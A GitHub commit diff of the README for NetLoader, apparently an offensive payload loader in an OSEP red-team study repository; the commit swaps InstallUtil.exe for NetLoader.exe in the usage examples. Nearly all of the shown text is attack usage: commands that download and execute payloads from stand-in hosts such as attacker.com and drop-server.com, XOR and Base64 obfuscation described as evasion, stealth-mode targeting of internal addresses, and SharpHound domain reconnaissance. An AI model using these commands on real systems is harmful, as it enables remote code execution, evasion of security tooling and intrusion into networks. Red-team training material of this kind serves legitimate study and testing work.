

Before and after one commit to VictorNS69/osep-material, a Markdown page: Tools/NetLoader/README.md, the part around the change. Drawn GitHub-style.

Commit message:
Replace InstallUtil with NetLoader in README

````diff
--- a/Tools/NetLoader/README.md
+++ b/Tools/NetLoader/README.md
@@ -37,46 +37,46 @@ Source code from:
 Basic Examples:
 ```powershell
 # Execute local binary
-InstallUtil.exe /path=C:\tools\payload.exe
+NetLoader.exe /path=C:\tools\payload.exe
 
 # Download and execute from URL
 InstallUtil.exe /path=http://attacker.com/payload.exe
 
 # With arguments for payload
-InstallUtil.exe /path=payload.exe /args="arg1,arg2,arg3"
+NetLoader.exe /path=payload.exe /args="arg1,arg2,arg3"
 ```
 Evasion Examples:
 ```powershell
 # XOR encrypted payload
-InstallUtil.exe /xor=MySecretKey123 /path=encrypted.bin
+NetLoader.exe /xor=MySecretKey123 /path=encrypted.bin
 
 # Base64 encoded parameters
-InstallUtil.exe /b64 /xor=U2VjcmV0S2V5 /path=aHR0cDovL2V4YW1wbGUuY29tL3A=
+NetLoader.exe /b64 /xor=U2VjcmV0S2V5 /path=aHR0cDovL2V4YW1wbGUuY29tL3A=
 
 # Debug mode with XOR encryption
-InstallUtil.exe /debug /xor=Password123 /path=http://server/encrypted.exe
+NetLoader.exe /debug /xor=Password123 /path=http://server/encrypted.exe
 ```
 Advanced Examples:
 ```powershell
 # Full evasion chain: Base64 + XOR + URL
-InstallUtil.exe /b64 /xor=S2V5 /path=aHR0cHM6Ly9zZXJ2ZXIvcGF5bG9hZC5lbmM= /args=YXJnMSx5ZWFo
+NetLoader.exe /b64 /xor=S2V5 /path=aHR0cHM6Ly9zZXJ2ZXIvcGF5bG9hZC5lbmM= /args=YXJnMSx5ZWFo
 
 # Local file with debug and XOR
-InstallUtil.exe /debug /xor=0xDEADBEEF /path=malware.enc
+NetLoader.exe /debug /xor=0xDEADBEEF /path=malware.enc
 
 # HTTPS download with arguments
-InstallUtil.exe /path=https://cdn.com/tool.exe /args="mode=stealth,target=192.168.1.10"
+NetLoader.exe /path=https://cdn.com/tool.exe /args="mode=stealth,target=192.168.1.10"
 ```
 Real-World Scenarios:
 ```powershell
 # Red Team OPSEC: Encrypted download with debug
-InstallUtil.exe /debug /xor=OpSecKey2024 /path=https://drop-server.com/stage2.enc
+NetLoader.exe /debug /xor=OpSecKey2024 /path=https://drop-server.com/stage2.enc
 
 # Penetration Test: Local execution with arguments
-InstallUtil.exe /path=SharpHound.exe /args="--CollectionMethod All --Domain corp.local"
+NetLoader.exe /path=SharpHound.exe /args="--CollectionMethod All --Domain corp.local"
 
 # Malware Analysis: Debug mode to trace execution
-InstallUtil.exe /debug /path=suspicious.bin /args="analyze,log,report"
+NetLoader.exe /debug /path=suspicious.bin /args="analyze,log,report"
 ```
 
 ## OSEP-like execution
````
